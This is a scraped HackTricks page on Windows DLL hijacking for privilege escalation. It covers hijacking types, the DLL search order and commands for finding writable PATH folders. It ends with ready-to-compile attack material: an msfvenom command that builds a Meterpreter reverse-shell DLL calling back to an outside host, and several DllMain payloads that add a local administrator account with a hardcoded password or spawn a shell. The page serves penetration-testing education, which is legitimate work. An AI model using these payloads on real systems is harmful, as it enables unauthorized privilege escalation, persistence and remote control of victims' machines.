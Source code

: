 Dll Hijacking
Support HackTricks and get benefits!
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking

#######################
#######################

​
​
If you are interested in hacking carer and hack the unhackable - we are hiring! (fluent polish written and spoken required).
Definition
First of all, let’s get the definition out of the way. DLL hijacking is, in the broadest sense, tricking a legitimate/trusted application into loading an arbitrary DLL. Terms such as DLL Search Order Hijacking, DLL Load Order Hijacking, DLL Spoofing, DLL Injection and DLL Side-Loading are often -mistakenly- used to say the same.
Dll hijacking can be used to execute code, obtain persistence and escalate privileges. From those 3 the least probable to find is privilege escalation by far. However, as this is part of the privilege escalation section, I will focus on this option. Also, note that independently of the goal, a dll hijacking is perform the in the same way.
Types
There is a variety of approaches to choose from, with success depending on how the application is configured to load its required DLLs. Possible approaches include:
DLL replacement: replace a legitimate DLL with an evil DLL. This can be combined with DLL Proxying [], which ensures all functionality of the original DLL remains intact.
DLL search order hijacking: DLLs specified by an application without a path are searched for in fixed locations in a specific order []. Hijacking the search order takes place by putting the evil DLL in a location that is searched in before the actual DLL. This sometimes includes the working directory of the target application.
Phantom DLL hijacking: drop an evil DLL in place of a missing/non-existing DLL that a legitimate application tries to load [].
DLL redirection: change the location in which the DLL is searched for, e.g. by editing the %PATH% environment variable, or .exe.manifest / .exe.local files to include the folder containing the evil DLL [, ] .
WinSxS DLL replacement: replace the legitimate DLL with the evil DLL in the relevant WinSxS folder of the targeted DLL. Often referred to as DLL side-loading [].
Relative path DLL Hijacking: copy (and optionally rename) the legitimate application to a user-writeable folder, alongside the evil DLL. In the way this is used, it has similarities with (Signed) Binary Proxy Execution []. A variation of this is (somewhat oxymoronically called) ‘bring your own LOLbin’ [] in which the legitimate application is brought with the evil DLL (rather than copied from the legitimate location on the victim’s machine).
Finding missing Dlls
The most common way to find missing Dlls inside a system is running  from sysinternals, setting the following 2 filters:
and just show the File System Activity:
If you are looking for missing dlls in general you leave this running for some seconds.
If you are looking for a missing dll inside an specific executable you should set another filter like "Process Name" "contains" "<exec name>", execute it, and stop capturing events.
Exploiting Missing Dlls
In order to escalate privileges, the best chance we have is to be able to write a dll that a privilege process will try to load in some of place where it is going to be searched. Therefore, we will be able to write a dll in a folder where the dll is searched before the folder where the original dll is (weird case), or we will be able to write on some folder where the dll is going to be searched and the original dll doesn't exist on any folder.
Dll Search Order
Inside the  you can find how the Dlls are loaded specifically.
In general, a Windows application will use pre-defined search paths to find DLL's and it will check these paths in a specific order. DLL hijacking usually happens by placing a malicious DLL in one of these folders while making sure that DLL is found before the legitimate one. This problem can be mitigated by having the application specify absolute paths to the DLL's that it needs.
You can see the DLL search order on 32-bit systems below:
The directory from which the application loaded.
The system directory. Use the  function to get the path of this directory.(C:\Windows\System32)
The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched. (C:\Windows\System)
The Windows directory. Use the  function to get the path of this directory.
(C:\Windows)
The current directory.
The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.
That is the default search order with SafeDllSearchMode enabled. When it's disabled the current directory escalates to second place. To disable this feature, create the HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\SafeDllSearchMode registry value and set it to 0 (default is enabled).
If  function is called with LOAD_WITH_ALTERED_SEARCH_PATH the search begins in the directory of the executable module that LoadLibraryEx is loading.
Finally, note that a dll could be loaded indicating the absolute path instead just the name. In that case that dll is only going to be searched in that path (if the dll has any dependencies, they are going to be searched as just loaded by name).
There are other ways to alter the ways to alter the search order but I'm not going to explain them here.
Exceptions on dll search order from Windows docs
If a DLL with the same module name is already loaded in memory, the system checks only for redirection and a manifest before resolving to the loaded DLL, no matter which directory it is in. The system does not search for the DLL.
If the DLL is on the list of known DLLs for the version of Windows on which the application is running, the system uses its copy of the known DLL (and the known DLL's dependent DLLs, if any) instead of searching for the DLL. For a list of known DLLs on the current system, see the following registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs.
If a DLL has dependencies, the system searches for the dependent DLLs as if they were loaded with just their module names. This is true even if the first DLL was loaded by specifying a full path.
Escalating Privileges
Requisites:
Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.
Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path).
Yeah, the requisites are complicated to find as by default it's kind of weird to find a privileged executable missing a dll and it's even more weird to have write permissions on a system path folder (you can't by default). But, in misconfigured environments this is possible.
In the case you are lucky and you find yourself meeting the requirements, you could check the  project. Even if the main goal of the project is bypass UAC, you may find there a PoC of a Dll hijaking for the Windows version that you can use (probably just changing the path of the folder where you have write permissions).
Note that you can check your permissions in a folder doing:
accesschk.exe -dqv "C:\Python27"
icacls "C:\Python27"
And check permissions of all folders inside PATH:
for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
You can also check the imports of an executable and the exports of a dll with:
dumpbin /imports C:\path\Tools\putty\Putty.exe
dumpbin /export /path/file.dll
Automated tools
​will check if you have write permissions on any folder inside system PATH.
Other interesting automated tools to discover this vulnerability are PowerSploit functions: Find-ProcessDLLHijack, Find-PathDLLHijack and Write-HijackDll.
Example
In case you find an exploitable scenario one of the most important things to successfully exploit it would be to create a dll that exports at least all the functions the executable will import from it. Anyway, note that Dll Hijacking comes handy in order to  or from. You can find an example of how to create a valid dll inside this dll hijacking study focused on dll hijacking for execution: .
Moreover, in the next section you can find some basic dll codes that might be useful as templates or to create a dll with non required functions exported.
Creating and compiling Dlls
Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
Your own
Note that in several cases the Dll that you compile must export several functions that are going to be loaded by the victim process, if these functions doesn't exist the binary won't be able to load them and the exploit will fail.
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            system("whoami > C:\\users\\username\\whoami.txt");
            WinExec("calc.exe", 0); //This doesn't accept redirections like system
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll
​
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    if (dwReason == DLL_PROCESS_ATTACH){
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
​
#include <windows.h>
​
int owned()
{
  WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
  exit(0);
  return 0;
}
​
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  owned();
  return 0;
}
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll
​
#include<windows.h>
#include<stdlib.h>
#include<stdio.h>
​
void Entry (){ //Default function that is executed when the DLL is loaded
    system("cmd");
}
​
BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call){
        case DLL_PROCESS_ATTACH:
            CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DEATCH:
            break;
    }
    return TRUE;
}
